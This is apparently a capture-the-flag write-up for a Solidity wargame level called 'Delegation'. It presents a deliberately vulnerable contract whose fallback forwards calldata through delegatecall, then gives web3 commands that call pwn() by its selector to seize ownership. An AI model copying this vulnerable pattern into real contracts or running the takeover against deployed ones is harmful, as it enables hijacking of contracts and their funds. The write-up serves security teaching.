 # Delegation

The goal of this level is for you claim ownership of the instance you are given.

```solidity
pragma solidity ^0.4.18;

contract Delegate {

  address public owner;

  function Delegate(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  function Delegation(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  function() public {
    if(delegate.delegatecall(msg.data)) {
      this;
    }
  }
}
```

## Solution

`delecatecall` allows us to [call contracts with the state of the caller](https://solidity.readthedocs.io/en/v0.5.3/introduction-to-smart-contracts.html#delegatecall-callcode-and-libraries). We can trigger the fallback function to call a remote function that manipulates the contracts own state!

1. Got the hash of the `pwn` method with `web3.sha3("pwn()").slice(0, 10)`
2. Triggered the falback method to call the `pwn` method with `contract.sendTransaction({ data: "0xdd365b8b" })`
